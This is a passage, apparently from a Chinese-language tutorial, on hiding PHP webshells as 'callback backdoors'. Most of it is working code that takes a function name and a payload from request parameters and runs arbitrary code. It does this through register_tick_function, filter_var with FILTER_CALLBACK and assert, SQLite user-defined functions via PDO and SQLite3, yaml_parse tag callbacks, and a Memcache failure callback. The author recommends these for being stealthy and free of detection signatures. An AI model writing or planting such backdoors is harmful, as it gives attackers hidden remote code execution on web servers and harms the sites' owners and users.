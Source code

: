     $e = $_REQUEST['e'];
    declare(ticks=1);
    register_tick_function ($e, $_REQUEST['pass']);

再来两个：

    filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));

这两个是filter_var的利用，php里用这个函数来过滤数组，只要指定过滤方法为回调（FILTER_CALLBACK），且option为assert即可。

这几个单参数回调后门非常隐蔽，基本没特征，用起来很6.

0x07 数据库操作与第三方库中的回调后门

回到最早微博上发出来的那个sqlite回调后门，其实sqlite可以构造的回调后门不止上述一个。

我们可以注册一个sqlite函数，使之与assert功能相同。当执行这个sql语句的时候，就等于执行了assert。所以这个后门我这样构造：

    $e = $_REQUEST['e'];
    $db = new PDO('sqlite:sqlite.db3');
    $db->sqliteCreateFunction('myfunc', $e, 1);
    $sth = $db->prepare("SELECT myfunc(:exec)");
    $sth->execute(array(':exec' => $_REQUEST['pass']));

执行之：

上面的sqlite方法是依靠PDO执行的，我们也可以直接调用sqlite3的方法构造回调后门：


    $e = $_REQUEST['e'];
    $db = new SQLite3('sqlite.db3');
    $db->createFunction('myfunc', $e);
    $stmt = $db->prepare("SELECT myfunc(?)");
    $stmt->bindValue(1, $_REQUEST['pass'], SQLITE3_TEXT);
    $stmt->execute();

前提是php5.3以上。如果是php5.3以下的，使用sqlite_*函数，自己研究我不列出了。

这两个回调后门，都是依靠php扩展库（pdo和sqlite3）来实现的。其实如果目标环境中有特定扩展库的情况下，也可以来构造回调后门。 比如php_yaml：


    $str = urlencode($_REQUEST['pass']);
    $yaml = <<<EOD
    greeting: !{$str} "|.+|e"
    EOD;
    $parsed = yaml_parse($yaml, 0, $cnt, array("!{$_REQUEST['pass']}" => 'preg_replace'));

还有php_memcached：

    $mem = new Memcache();
    $re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
    $mem->connect($_REQUEST['pass'], 11211, 0);

自行研究吧。

0x08 其他参数型回调后门

上面说了，回调函数格式为1、2、3参数的时候，可以利用assert、assert、preg_replace来执行代码。但如果回调函数的格式是其他参数数目，或者参数类型不是简单字符串，怎么办？

举个例子，php5.5以后建议用'''preg_replace_callback'''代替'''preg_replace'''的/e模式来处理正则执行替换，那么其实'''preg_replace_callback'''也是可以构造回调后门的。
